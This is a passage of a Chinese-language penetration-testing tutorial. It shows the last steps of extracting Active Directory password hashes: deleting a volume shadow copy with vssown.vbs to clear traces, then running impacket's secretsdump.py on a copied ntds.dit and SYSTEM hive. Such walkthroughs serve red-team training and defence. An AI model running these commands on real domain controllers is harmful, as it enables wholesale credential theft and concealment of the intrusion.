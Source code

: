 ```plain
dir c:\vssown\
```

[![](assets/1706090550-baa7d7d109a1347dc2fc30eee6aa1c54.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095827-10890d5c-ba5c-1.png)  
Step 6：删除影卷拷贝

```plain
cscript vssown.vbs /delete {54ECD66A-570C-4489-956F-9B83E4C8B1B9}
```

[![](assets/1706090550-60ca9fdf1db04abec3d8190c1d76466a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095845-1bb8ffca-ba5c-1.png)  
Step 7：之后使用 impacket 导出 Hash

```plain
./secretsdump.py -system /root/vssown/SYSTEM -ntds /root/vssown/ntds.dit LOCAL
```

[![](assets/1706090550-6e3568660f4a00ec71ebbabc280fdd3b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095908-2929720c-ba5c-1.png)
